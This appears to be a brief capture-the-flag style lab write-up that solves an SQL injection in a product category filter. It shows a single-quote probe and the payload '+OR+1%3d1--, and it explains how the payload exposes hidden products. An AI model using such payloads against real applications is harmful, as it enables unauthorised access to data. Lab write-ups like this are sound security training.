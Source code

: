 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Description
 This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

### step 1 determine if the their is a vulnerability
GET /filter?category=Gifts' response 500 
#### analysis
The response shows that the page is vulnerable.

### step2 inject the payload
'+OR+1%3d1-- response = 200
#### analysis
Retrived all the products released and unreleased.
The payload 1=1 is always true
and the comments -- after the 1=1 is used to ignore the rest of the query


![image](https://user-images.githubusercontent.com/44478872/150627360-f4621ccd-16fd-4f3c-8207-5327516d5c76.png)
